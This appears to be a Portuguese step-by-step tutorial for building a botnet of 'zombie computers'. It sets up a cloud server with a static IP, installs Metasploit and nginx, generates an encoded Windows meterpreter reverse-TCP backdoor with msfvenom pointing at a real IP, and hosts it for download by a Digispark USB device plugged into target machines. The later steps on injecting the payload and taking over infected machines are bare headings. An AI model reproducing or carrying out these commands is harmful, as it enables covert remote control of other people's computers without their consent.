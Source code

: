 PASSOS 

1 - Criar uma INSTANCIA e definir um IP estatico

    Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

    1 - Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

    2 - Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.

2 - Instalar METASPLOIT e NGINX


        Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

        1 - Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

            $ ssh usuario@instancia 

            apos se conectar rode instale o nginx ou apache como preferir

            $ sudo apt-get install -y nginx

            agora os comandos abaixo é para instalar o METASPLOIT

            $ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

            conceder permisão de execução para o instalador

            $ chmod +x msfinstall

            agora execulte o mesmo

            $ ./msfinstall

            Efeito isso e não deu nenhum error é so verificar se ta tudo certo.
            Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

            $ msfconsole --version

3 - Criar BACKDOOR REVERSE


        1 -  Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO,
        qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida. 

        se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

        $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe

        Rodando um ls verá que o arquivo payload.exe foi criado


4 - Configurar NGINX para download do backdoor

        1 - Vamos criar uma copia dele dentro da nossa pasta do servidor 

        $ sudo cp ./payload.exe /var/www/html/payload.exe

        3 - feito isso nosso arquivo vai esta disponivel para download em 

        http://34.97.212.80/payload.exe


5 - Digispark





6 - Criar Payload injectar o backdoor

7 - INICIAR ESCULTA DAS CONEXOES DO BACKDOOR

8 - Obter acesso a uma maquina infectada